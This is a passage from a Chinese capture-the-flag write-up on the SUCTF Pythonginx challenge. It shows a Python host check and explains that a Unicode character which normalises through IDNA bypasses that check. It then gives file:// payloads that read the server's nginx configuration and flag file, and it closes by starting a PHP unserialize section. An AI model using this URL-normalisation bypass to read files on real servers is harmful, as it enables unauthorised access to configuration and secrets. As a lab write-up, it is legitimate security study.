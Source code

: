 ```python
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
if __name__=="__main__":
    get_unicode()
```

直接用脚本爆破可以绕过的字符

![image-20221206095513010](challenge.assets/image-20221206095513010.png)

结合题目**nginx**，访问**nginx**的配置文件

```python
file://suctf.ℭc/usr/local/nginx/conf/nginx.conf

返回
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }
```

访问flag

```python
file://suctf.ℭc/usr/fffffflag
```



## unserialize

### [极客大挑战 2019]PHP



提示了源码泄露，直接`/www.zip`拿到源码
